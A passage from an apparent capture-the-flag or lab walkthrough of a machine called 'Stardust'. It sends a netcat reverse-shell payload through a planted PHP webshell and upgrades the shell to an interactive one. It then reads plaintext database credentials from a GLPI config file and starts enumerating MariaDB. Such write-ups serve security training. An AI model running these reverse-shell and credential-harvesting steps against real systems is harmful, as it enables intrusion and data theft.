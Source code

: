 Now that we have RCE on the target we can leverage this to obtain a reverse shell.
##### We start our listener
```bash
┌──(pentester㉿kali)-[~/Stardust/]
└─$nc -lvnp 1234
listening on [any] 1234 ...
```
##### We send the reverse shell payload
```bash
┌──(pentester㉿kali)-[~/Stardust/Misc File]
└─$curl http://10.0.2.23/files/_tmp/6229105448218c.17957784webshell.php?cmd=nc+-c+bash+10.0.2.16+1234
```
##### We upgrade the shell to a fully interactive shell
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")' 
www-data@stardust:/var/www/html/files/_tmp$ ^Z
zsh: suspended  nc -lvnp 1234

┌──(whitemiller㉿kali)-[~/Stardust]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1234
                               export TERM=xterm
www-data@stardust:/var/www/html$ ls /home
tally
```

Now that we have obtained a foothold on the target, we can use this to enumerate the system further. A quick look in the server's root directory reveals a configuration file that stores database credentials.
```bash
www-data@stardust:/var/www/html/config$ cat config_db.php 
<?php
class DB extends DBmysql {
   public $dbhost = 'localhost';
   public $dbuser = 'glpi';
   public $dbpassword = 'D6jsxBGekO';
   public $dbdefault = 'glpi';
   public $use_utf8mb4 = true;
   public $allow_myisam = false;
   public $allow_datetime = false;
   public $allow_signed_keys = false;
}
```

We can use these credentials to connect to the database and enumerate it further. 
```bash
www-data@stardust:/var/www/html$ mysql -u glpi -p
Enter password: 
<SNIP>
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| glpi               |
| information_schema |
| intranetikDB       |
+--------------------+
3 rows in set (0.012 sec)

MariaDB [(none)]> use intranetikDB
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

```